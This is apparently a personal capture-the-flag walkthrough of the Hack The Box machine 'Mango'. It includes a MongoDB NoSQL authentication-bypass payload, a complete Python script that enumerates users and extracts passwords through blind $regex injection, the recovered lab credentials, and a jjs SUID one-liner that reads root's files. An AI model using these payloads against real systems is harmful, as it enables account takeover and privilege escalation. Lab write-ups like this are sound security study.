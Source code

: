 # Mango

## Preparation

Added IP to /etc/hosts as "mango.htb"

## Recon

Starting with nmap
```
nmap -sV -sC mango.htb
```

### HTTPS (443/TCP)

Domain name in cert - staging-order.mango.htb
Image refernce in source code - https://github.com/MangoDevelopers/mango-new-logo/raw/master/NewMango.jpg
	MangoDB?
Search Engine Screen
	No reflective input
	Googling "MongoDB SQL Injection" brings up a lot of results as NoSQL, testing those

It's using virtual host routing, put staging-order.mango.htb in /etc/hosts and visiting it returns a login screen

Auth bypass from PayloadAllTheThings worked: username[$ne]=toto&password[$ne]=toto

email found: admin@mango.htb

I can enumerate users by using username=toto&password[$ne]=toto and replacing the username value, if it returns 302 then the username is valid

## Cracking the Perimeter

Used cewl to build a wordlist of users, added the admin
	Mango
	mango
	Sweet
	sweet
	Juicy
	juicy
	Admin
	admin
	admin.htb
```
import json, requests, urllib3, string, urllib

host = str("http://staging-order.mango.htb/index.php")
header = {'content-type': 'application/x-www-form-urlencoded'}
userlist = []
passlenlist = []
passlist = []
chars = string.ascii_letters + string.digits + string.punctuation
users = open('users.txt','r')

for user in users:
	user = user.rstrip()
	payload = str("username=%s&password[$ne]=admin&login=login" % user)
	r = requests.post(host, data = payload, headers = header, verify = False, allow_redirects = False)
	if r.status_code == 302:
		print(str("Found user: %s" % user))
		userlist.append(user)

for user in userlist:
	for i in range(1,64):
		payload = str("username=%s&password[$regex]=^.{%s}&login=login" % (user,str(i)))
		r = requests.post(host, data = payload, headers = header, verify = False, allow_redirects = False)
		if r.status_code == 200:
			print(str("%s's password is %s characters" % (user,i-1)))
			passlenlist.append(i-1)
			break

for user in userlist:
	password = str("")
	passwordlen = passlenlist[int(userlist.index(str(user)))]
	while int(len(password)) <= int(passwordlen):
		for c in chars:
			if c not in ['*','+','.','?','|','&']:
				payload = str("username=%s&password[$regex]=^%s&login=login" % (str(user),str(password + c)))
				r = requests.post(host, data = payload, headers = header, verify = False, allow_redirects = False)
				print(str("I tried %s for %s" % (password + c, user)))
				if r.status_code == 302:
					password += c
				if int(len(password)) == int(passwordlen):
					passlist.append(password)
					continue

passlist = list(dict.fromkeys(passlist))
for i in range(0,len(userlist)):
	print(str("%s's password is %s" % (userlist[i],passlist[i])))
```


admin and mango are users (case sensitive)
mango's password is h3mXK8RhU~f{]f5H
admin's password is t9KcS3>!0B#2
ssh:mango:h3mXK8RhU~f{]f5H
local:admin:t9KcS3>!0B#2

## Privilege Escalation

SUID on jjs, root owns, admin can run

echo 'var BufferedReader = Java.type("java.io.BufferedReader");var FileReader = Java.type("java.io.FileReader");var br = new BufferedReader(new FileReader("/root/root.txt"));while ((line = br.readLine()) != null) { print(line); }' | jjs